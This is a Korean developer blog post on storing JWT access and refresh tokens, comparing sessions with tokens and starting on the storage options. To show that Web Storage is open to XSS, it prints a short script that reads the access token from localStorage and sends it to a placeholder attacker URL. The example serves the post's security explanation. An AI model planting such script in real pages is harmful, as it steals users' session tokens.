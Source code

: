 ```yaml
---
title: "JWT 토큰은 어떻게 관리해야 할까"
date: 2023-10-10
update: 2023-10-10
tags:
  - development
---
```


## 세션과 토큰

HTTP 프로토콜은 stateless 하기 때문에 이전에 요청을 보냈던 클라이언트와 다음에 요청을 보낸 클라이언트가 동일하다는 보장이 없다.

그래서 특정 사용자를 식별하기 위해서는 인증과 인가를 구현해줘야 하는데, 어떤 방식으로 처리할지는 크게 두 가지로 구분할 수 있다:

- **세션**: 클라이언트는 간단한 ID만 가지고, 상세한 인가 정보는 서버가 가지고 있는 방식이다.  
  사용자를 로그아웃 시키는 로직을 만든다거나 보안 정책에 따라서 유연하게 다룰 수 있다는 장점이 있지만 서버가 여러 대인 경우에는 세션 정보를 어떻게 공유할지부터 시작해서 서버의 리소스 부담이 비교적 크다.

- **토큰**: 클라이언트가 갖고 있는 토큰 자체가 인가 정보가 되는 것으로 서버가 시크릿 키로 복호화가 가능하다면 유효한 토큰으로 인식한다.
  토큰의 페이로드에 사용자 이름이나 권한 등급같은 정보도 함께 보낼 수 있어서 서버의 부담이 비교적 적으나, 페이로드의 내용은 디코딩하면 누구나 확인할 수 있기 때문에 비밀번호와 같은 중요한 정보는 담으면 안된다.

## 토큰을 사용한다면?

토큰 방식을 사용한다고 하면 JWT 토큰이 표준으로써 많이 사용 되는데, 다음 문제들에 대해서 늘 고민이 많았었다.

1. 토큰이 악의적인 목적으로 탈취되지 않도록 XSS, CSRF 등의 공격으로부터 최대한 안전해야 함.
2. 토큰이 자주 만료되어서 다시 로그인해야 하는 사용자의 불편함을 방지해야 함.
3. 새로고침하거나 다른 탭에서도 로그인이 유지되어야 함.
4. 로그인, 비로그인 상태에 따른 페이지 접근 제한을 적절하게 구현해야 함.

보통 사용자가 직접 자신의 리소스에 접근할 권리를 보장하는 토큰을 **액세스 토큰**이라는 이름으로 짧은 만료 기간으로 발급하고, 액세스 토큰이 만료되었을 때 다시 로그인해야 하는 불편함을 방지하기 위해서 새로운 토큰을 발급할 수 있는 **리프레쉬 토큰**을 긴 만료 기간으로 발급하는 편이다.

### 선택지

그럼 클라이언트에서는 과연 액세스 토큰과 리프레쉬 토큰을 각각 어디에 보관해야 적절할까? 선택지는 크게 3가지가 있을 것 같다.

1. 로컬 스토리지, 세션 스토리지 등 **Web Storage**에 저장하기
2. **쿠키**에 저장하기
3. 변수나 State 등의 **메모리**에 저장하기

그럼 각각의 선택지를 선택했을 때의 문제점은 없을지 정리해보자면..

### 1. Web Storage

새로고침 시에도 정보가 남아있기 때문에 로그인 유지 기능을 구현하기에도 용이해서 자주 사용했던 방법이다.

그런데 보안상으로 문제가 있는데.. **XSS 공격에 매우 취약**하다는 것이다.

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <script>
      if (localStorage.getItem("accessToken")) {
        document.location =
          "https://해커의URL.com?accessToken=" +
          localStorage.getItem("accessToken")
      }
    </script>
  </head>
  <body></body>
</html>
```